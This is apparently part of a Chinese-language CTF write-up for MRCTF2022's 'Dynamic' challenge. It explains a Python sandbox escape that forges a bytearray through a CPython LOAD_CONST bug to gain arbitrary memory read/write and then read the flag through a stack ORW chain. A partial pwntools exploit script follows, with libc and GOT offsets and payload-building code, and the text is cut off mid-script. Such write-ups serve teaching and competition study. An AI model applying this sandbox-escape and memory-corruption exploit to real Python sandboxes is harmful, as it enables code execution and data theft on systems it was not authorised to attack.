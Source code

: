~~~python
add_in_same_region(4, 0x100, region)
dele(0xf)
print(r())
io.close()
~~~



## Dynamic
首先用python沙箱逃逸技巧拿到一些类的构造方法，然后创建一个bytearray对象并在其buffer中伪造一个bytearray对象，这个对象buffer起始地址为0，大小为一个极大值。然后利用python的LOAD_CONST bug构造一个能够返回我们伪造的bytearray对象的DynaFunc对象。有了这个bytearray对象后即可任意读写，写返回时的栈orw读出flag即可。虽然DynaFunc里没有故意设置漏洞，但说不定会有，感兴趣的dalao们可以康康https://github.com/veltavid/MRCTF2022/tree/main/Dynamic。

exp:

```python
from pwn import *

lib=ELF("./libc.so.6")
python=ELF("./python3.10")
malloc_got=python.got['malloc']
environ_offset=python.sym['environ']
malloc_offset=lib.sym['malloc']
open_offset=lib.sym['open']
read_offset=lib.sym['read']
write_offset=lib.sym['write']
libc_start_main_offset=0x240B3

code="""
str="".__class__
bytearray=[x for x in b"".__class__.__base__.__subclasses__() if "bytearray" in str(x)][1]
LOAD_CONST=100
EXTENDED_ARG=144
RETURN_VAL=83

p8_code=\"\"\"
bytes=b"".__class__
return bytes([fd&0xff])
\"\"\"

p64_code=\"\"\"
bytes=b"".__class__
result=[]
for i in range(8):
	result.append((fd>>(i*8))&0xff)
return bytes(result)
\"\"\"

u64_code=\"\"\"
res=0
for x in fd[::-1]:
	res = (res<<8) | x
return res
\"\"\"

p8=DynaFunc(func)
p64=DynaFunc(func)
u64=DynaFunc(func)
exp_func=DynaFunc(func)
p8.set(p8_code)
p64.set(p64_code)
u64.set(u64_code)

const_tuple=()
```